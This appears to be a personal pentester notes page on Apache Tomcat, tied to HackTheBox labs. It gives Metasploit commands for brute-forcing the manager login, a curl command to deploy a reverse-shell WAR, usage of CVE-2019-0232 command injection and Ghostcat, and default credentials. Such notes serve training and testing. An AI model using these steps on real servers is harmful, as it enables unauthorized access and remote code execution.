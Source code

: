 # Apache Tomcat

<div class="row row-cols-lg-2"><div>

[Apache Tomcat](https://tomcat.apache.org/) is an open-source web server. It provides a Java HTTP web server environment in which Java code can run.

* [GitHub](https://github.com/apache/tomcat) <small>(7.1k ⭐)</small>
* [Documentation](https://tomcat.apache.org/tomcat-11.0-doc/index.html) <small>(⛪)</small>

The version 11 is still in development. The previous major versions are version 10 <small>(2021)</small>, version 9 <small>(2018)</small>, and version 8 <small>(2016)</small>.
</div><div>

A java web application can use either or both servlets and JSPs. A combination of both is the most common architecture.

* **Servlets** ☕: the whole logic is in Java
* **JSP** 🐲: html-like template files in which we can add Java logic to handle input and create interactive pages.

The admin panel to upload applications if usually at `/manager/html`. To upload an application, you need to package it as a WAR archive. Each app is deployed at a URI, and `index.jsp` is loaded by default <small>(else error)</small>.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

[![linuxprivilegeescalation](../../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![jerry](../../../../../cybersecurity/_badges/htb-p/jerry.svg)](https://app.hackthebox.com/machines/Jerry)
[![cozyhosting](../../../../../cybersecurity/_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)

<div class="row row-cols-lg-2"><div>

* You can try [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) <small>(0.4k ⭐, 2022 🪦)</small>, but it's memory hungry, buggy, unstable, and you need to patch the code first 🪦. It's a multipurpose tool <small>(from enumeration to exploitation, albeit basic)</small>.

#### Enumeration

![bizness](../../../../../cybersecurity/_badges/htb-p/bizness.svg)

* You can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md). It often runs on port 8080.

```shell!
$ sudo nmap 10.10.10.95 -sCV -v
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

* We can often easily recognize a website using Apache Tomcat from the presence of the `JSESSIONID` cookie while we may also trigger an error to see the error message page layout. Additionally, the URI `/docs` may be available and expose Tomcat version.

* Maybe [Sprint Boot Actuators](/programming-languages/high-level/oo/java/others/boot/actuators.md) are being used.

* We can disclose tomcat version by sending a query using an invalid method that should raise a 405 (ex: `curl -X PUT URL`)

#### Foothold

* If you close the login prompt, you may see default credentials

* We can try to brute force the manager account using [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md).

```shell!
$ msfconsole -q
msf6> use auxiliary/scanner/http/tomcat_mgr_login
msf6> set RHOSTS <target>
msf6> set STOP_ON_SUCCESS true
msf6> set ANONYMOUS_LOGIN true
msf6> set BLANK_PASSWORDS true
msf6> run
```
</div><div>

#### Exploitation

* If you have access to the manager, you can try to upload a reverse shell. Refer to [reverse shell#tomcat](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md#tomcat-reverse-shell) for more information.

* You can also try to use metasploit to [upload a reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md#tomcat-reverse-shell)

* You can use cURL to upload a WAR too:

```ps
$ curl --upload-file revshell.war -u 'username:password' "URL/manager/text/deploy?path=/shell"
```

#### Well-known CVEs

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)

* [CVE-2019-0232](https://nvd.nist.gov/vuln/detail/CVE-2019-0232): on Windows host, if there is a cgi script and `enableCmdLineArguments` is was enabled <small>(not default!)</small>, it can be exploited to arbitrarily run commands. 

Use `URL/xxx.bat?&dir` to execute `dir`. Use `+` instead of spaces. Use <code>\\</code> in paths. Don't forgot to URL encode them. If `PATH` is not set (`&set`), use the full path to a command <small>(e.g. `c:\windows\system32\whoami.exe`)</small>. You can use directions to create files <small>(e.g. `dir+>+output` to create 'output')</small>.
</div></div>

<hr class="sep-both">

## Apache AJP

[![server_side_attacks](../../../../../cybersecurity/_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

<div class="row row-cols-lg-2"><div>

Apache AJP is a wire protocol. It allows a web server such as Apache to talk to tomcat. A few notes:

* 🐲 It runs on port 8009/TCP <small>(by default)</small>
* 🪦 It's not often exposed
* 📚 We need to configure a webserver to communicate with it

While uncommon, if a tomcat website is behind a firewall, but the AJP port is exposed, we can use AJP to access the 'hidden' tomcat website.

#### AJP Exploitation

[![server_side_attacks](../../../../../cybersecurity/_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ajp](../../../../../cybersecurity/_badges/hacktricks/network_services_pentesting/ajp.svg)](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp)

* We can use [nginx](/operating-systems/cloud/webservers/nginx/index.md) with `nginx_ajp_module`
* We can use [Apache](/operating-systems/cloud/webservers/apache/index.md) with `proxy_ajp`
* We can use [AJPy](https://github.com/hypn0s/AJPy) <small>(0.4k ⭐)</small>

```
$ git clone https://github.com/hypn0s/AJPy.git && cd AJPy
$ python tomcat.py --port 8009 "version" IP
<print tomcat manager version>
```
</div><div>

#### AJP Well-known CVEs

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)

* [CVE-2020-1938](https://nvd.nist.gov/vuln/detail/CVE-2020-1938): unauthenticated LFI that can be used to read files in the webroot, such as `WEB-INF/web.xml` or `WEB-INF/cgi/xxx.bat`. Apache JServ which usually runs on port `8009` must be exposed.

It can be exploited using metasploit:

```shell!
msf6> use auxiliary/admin/http/tomcat_ghostcat
```

The file `web.xml` contains the manager credentials if they were defined.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [apache-tomcat-pentesting](https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/)
* Jetty - it seems like an alternative
* `/manager/status` server status (admin:admin)
* not the same credentials on each page
* when uploading, on the same page, there are information about the server architecture, which we can use to fine tune the payload
* `jar -ft revshell.jar`/`jd-gui`: to see metasploit endpoint name
* when pressing ESC on login, it may print the message with the default credentials
</div><div>

* `/etc/tomcat9/<config files>`
* `web.xml`, `tomcat-users.xml`

While not really related:

![bizness](../../../../../cybersecurity/_badges/htb-p/bizness.svg)

* `/control/xmlrpc`, `/webtools/control/main`, `/control/checkLogin`
* Try default credentials (`admin:ofbiz`)
* [CVE-2023-50164](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) lead to RCE
</div></div>